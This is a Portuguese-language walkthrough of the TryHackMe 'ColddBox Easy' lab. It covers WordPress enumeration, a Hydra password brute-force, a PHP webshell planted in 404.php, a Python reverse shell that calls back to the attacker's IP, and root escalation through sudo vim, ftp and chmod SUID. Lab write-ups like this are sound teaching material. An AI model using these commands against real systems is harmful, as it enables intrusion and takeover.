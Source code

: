 ```yaml
---
description: CTF do TryhackME como fiz e anotações.
title: TryhackMe - ColddBox - Fácil
date: 2024-01-08 02:26:00 +/-0300
categories: [CTF, TryHackMe]
tags: [ctf, tryhackme, linux, sudo, wordpress, facil]     # TAG names should always be lowercase
show_image_post: true
---
```


![logo](/assets/img/ColddBox3.png){: w="100" h="100" .left}

___

# **TryhackMe - ColddBox Fácil**
---
---
## **Enumeração**

Ao acessar o site chequei com a extensão wappalyser

![Alt text](/assets/img/ColddBox1.png)

Wordpress encontrando rodei o 

### nmap

```text
──(kali💀kali)-[~]
└─$ sudo nmap 10.10.161.138 -Pn -sV        
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-07 20:52 EST
Nmap scan report for 10.10.161.138
Host is up (0.22s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.00 seconds
```
{: .nolineno }
 
### gobuster


```text
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/hidden               (Status: 200) [Size: 340]
/server-status        (Status: 403) [Size: 278]
/wp-content           (Status: 200) [Size: 0]
/wp-includes          (Status: 200) [Size: 26809]
Progress: 20469 / 20470 (100.00%)
/wp-admin             (Status: 200) [Size: 2567]
===============================================================
Finished
===============================================================
```
{: .nolineno }

de interessante apenas /hidden e a pagina de login do wordpress /wp-admin

conteúdo da /hidden

```text
U-R-G-E-N-T

C0ldd, you changed Hugo's password, when you can send it to
him so he can continue uploading his articles. Philip
```
{: .nolineno }

### wpscan
 
 Me retornou alguns usuários validos
 
```text
 [+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
{: .nolineno }
## **Acesso**

### hydra

Adicionei os 3 em users.txt

* c0ldd
* philip
* hugo


Tentei usar o patator por achar mais rápido, mas nao ficou estável,  por má configuração ou sei la...
Optei então pelo hydra

```shell
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt 10.10.161.138 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -t 60 -F 
```
{: .nolineno }

Rapidamente me retornou login e senha

```text
[80][http-post-form] host: 10.10.161.138   login: c0ldd   password: 9876543210
```
{: .nolineno }

### Reverse Shell

Pesquisei por métodos de reverse shell encontrei esses
[aqui](https://gab3.medium.com/t%C3%A9cnicas-para-conseguir-reverse-shell-em-ambientes-wordpress-ede0b289a644)

Tentei o método do plugin as vezes retornava um erro, não sei se por conta do lag com servidor.
Optei pelo método de injetar a reverse shell  na 404.php

**Apenas adicionei o código na 404.php**

```php
echo shell_exec($_GET["cmd"]);
```
{: .nolineno }
![Alt text](/assets/img/ColddBox2.png)

Ao executar a pagina 404.php no navegador temos uma webshell que podemos executar comandos.

```text
Exemplo
/404.php?cmd=ls
```
{: .nolineno }

Tentei usar socat com wget e foi sem exito então , optei pelo python

```text
http://10.10.161.138/wp-content/themes/twentythirteen/404.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.6.125.125%22,4443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```
{: .nolineno }

**Upgrade para shell interativa**

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")';
ctrl+z
stty raw -echo;fg
export TERM=xterm-256color
```
{: .nolineno }

## **Escalação de privilégio**

Por pesquisa descobri que  wp-config.php contem login:senha do mysql

```text
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');
```
{: .nolineno }
Nada de útil encontrando no DB

/etc/passwd sem permissões de escrita

Tentei logar com as credencias do db na maquina e OK

```bash
su - c0ldd 
c0ldd@ColddBox-Easy:~$ 

Primeira flag obtida
c0ldd@ColddBox-Easy:~$ cat user.txt 
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```
{: .nolineno }
Com sudo -l, é possível ver três formas de obter root, optei pelo vim.


```shell
c0ldd@ColddBox-Easy:~$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
c0ldd@ColddBox-Easy:~$ sudo -u root vim -c ':!/bin/bash'
root@ColddBox-Easy:/# 
```
{: .nolineno }
com cat em /root.txt obtivemos a ultima flag

wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=

**Obter root com ftp**

sudo -u root ftp
ftp> !/bin/bash

**Obter root com chmod**

sudo -u root chmod 4775 /bin/bash

O 4 no início representa a permissão SUID (Set User ID). Quando definido em um arquivo executável, permite que um usuário que execute o arquivo temporariamente assuma as permissões do proprietário do arquivo. No caso do /bin/bash, isso permitiria que o usuário que o execute temporariamente tenha privilégios de root durante a execução.

bash -p

O argumento p preserva o bit SUID do  arquivo